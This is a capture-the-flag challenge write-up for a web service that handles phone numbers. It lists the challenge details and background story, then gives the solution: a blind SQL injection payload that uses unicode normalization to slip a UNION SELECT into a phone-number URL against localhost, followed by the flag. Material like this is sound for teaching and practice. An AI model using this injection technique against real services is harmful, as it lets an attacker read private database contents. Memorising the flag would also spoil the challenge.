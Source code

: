 ## Background

 Author: spipm
 Categories: Webservices
 Difficulty: Medium to Hard

## Technical

A web service accepts a phone number and does some operation on it. It shows a green-on-black interface that a bot is dialing some leaderbot.

## Story

Bots are developing this crazy idea of 'phone numbers' so they can directly contact each other without having to waste time on the internet. They're even developing an analog distributed database to increase productivity. Local leader bots will receive regular status updates from nearby bots. Check out the link to see the updates in action.

![Dial](./dial.jpg "Dial") 

## Exploit

One needs to perform blind SQL Injection via unicode normalization via a phone number.

http://localhost:2000/+31613371001;isub=a%CD%B4%20UNION%20SELECT%20flag%20from%20flags--

## Flag

brck{Th15_NumB3r_LoOks_n0RM4l_T0_m3}

